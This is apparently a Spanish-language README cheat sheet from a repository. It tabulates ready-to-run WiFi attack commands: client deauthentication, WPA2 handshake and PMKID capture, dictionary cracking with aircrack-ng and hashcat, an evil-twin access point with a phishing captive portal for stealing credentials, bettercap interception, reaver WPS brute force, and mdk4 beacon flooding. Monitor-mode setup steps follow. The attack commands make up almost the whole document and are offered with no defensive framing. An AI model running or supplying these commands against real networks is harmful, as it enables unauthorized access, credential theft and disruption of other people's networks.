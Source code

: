 ## 🧨 Tabla de Comandos para Ataques WiFi

| Tipo de Ataque         | Herramienta      | Comando                                                                                  | Objetivo                                      |
|------------------------|------------------|------------------------------------------------------------------------------------------|-----------------------------------------------|
| 🔍 Reconocimiento       | `airodump-ng`     | `sudo airodump-ng wlan0`                                                                 | Escaneo pasivo de redes y clientes            |
|                        |                  | `sudo airodump-ng -c <CANAL> --bssid <BSSID> -w captura wlan0`                          | Captura dirigida a una red específica         |
| 💥 Deautenticación      | `aireplay-ng`     | `sudo aireplay-ng --deauth 10 -a <BSSID> wlan0`                                          | Expulsar a todos los clientes del AP          |
|                        |                  | `sudo aireplay-ng --deauth 10 -a <BSSID> -c <MAC_CLIENTE> wlan0`                         | Expulsar a un cliente específico              |
| 🎣 Captura de Handshake | `airodump-ng`     | *(igual que captura dirigida arriba)*                                                   | Recolectar handshake WPA2-PSK                 |
|                        | `aircrack-ng`     | `aircrack-ng -w rockyou.txt captura.cap`                                                 | Romper WPA2 con diccionario                   |
| 👻 Evil Twin (AP falsa) | `airbase-ng`      | `sudo airbase-ng -e "WiFiGratis" -c 6 wlan0`                                             | Crear punto de acceso falso                   |
|                        | `hostapd + dnsmasq`| *Configuración avanzada para portal cautivo (phishing)*                                  | Capturar credenciales                         |
| 🐍 MITM / Sniffing      | `bettercap`       | `sudo bettercap -iface wlan0mon`<br>`net.probe on`<br>`wifi.recon on`<br>`wifi.assoc <BSSID>` | Interceptar tráfico, escanear y asociarse     |
| 🔓 Ataque WPS          | `reaver`          | `sudo reaver -i wlan0mon -b <BSSID> -vv`                                                 | Fuerza bruta al PIN WPS                       |
| 🔓 Ataque PMKID        | `hcxdumptool`     | `sudo hcxdumptool -i wlan0 --enable_status=15 -o pmkid.pcapng`                           | Captura de hash PMKID WPA2                    |
|                        | `hcxpcapngtool`   | `hcxpcapngtool -o hash.22000 pmkid.pcapng`                                               | Convertir a formato Hashcat                   |
|                        | `hashcat`         | `hashcat -m 22000 hash.22000 rockyou.txt`                                                | Ataque por diccionario con GPU                |
| 💣 Beacon Flood / DoS  | `mdk4`            | `sudo mdk4 wlan0mon b -n "RedFalsa" -f`                                                  | Inundar con falsas redes SSID                 |
| 🪛 Inyección de paquetes| `aireplay-ng`     | `sudo aireplay-ng -9 wlan0mon`                                                           | Verificar si la tarjeta soporta inyección     |

---

## ⚙️ Extras de Configuración

Usa el script section3_activate_wifi.sh o haz los siguientes pasos

![activate-wifi](activate-wifi.png)

| Paso                    | Comando                                                                 |
|-------------------------|-------------------------------------------------------------------------|
| Activar modo monitor    | `sudo ip link set wlan0 down && sudo iw wlan0 set monitor control && sudo ip link set wlan0 up` |
| O usar                  | `sudo airmon-ng start wlan0`                                            |
| Ver interfaces          | `iwconfig`                                                              |
| Desactivar modo monitor | `sudo airmon-ng stop wlan0mon`                                          |
